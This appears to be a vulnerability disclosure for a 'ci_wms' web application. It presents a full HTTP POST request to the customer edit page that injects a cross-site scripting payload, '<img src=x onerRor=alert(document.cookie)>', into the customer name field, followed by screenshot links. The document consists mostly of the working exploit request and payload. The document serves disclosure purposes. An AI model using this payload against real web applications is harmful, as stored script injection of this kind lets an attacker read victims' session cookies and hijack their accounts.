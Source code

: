 Request:

```
POST /ci_wms/website/customer/edit/5 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 173
Origin: http://localhost
Sec-GPC: 1
Connection: close
Referer: http://localhost/ci_wms/website/customer/edit/5
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14; sessions=i0qtlgb7oh0b2a6dgunv4tff2c11ilsd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

id_customer=5&nama_customer=Betty+Wright%3Cimg+src%3Dx+onerRor%3Dalert%28document.cookie%29%3E&alamat_customer=1205+Cardinal+Lane&notelp_customer=01478000&simpan=Update+Data
```

payload

```
<img src=x onerRor=alert(document.cookie)>
```
<img width="1319" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/59730c76-4460-43f7-83e6-7ec5520f9570">
<img width="766" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/f024a832-41fc-4e11-807d-0c5d0d59b625">
<img width="1311" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/bbf1e273-0e64-40c0-b908-04f0ac050729">






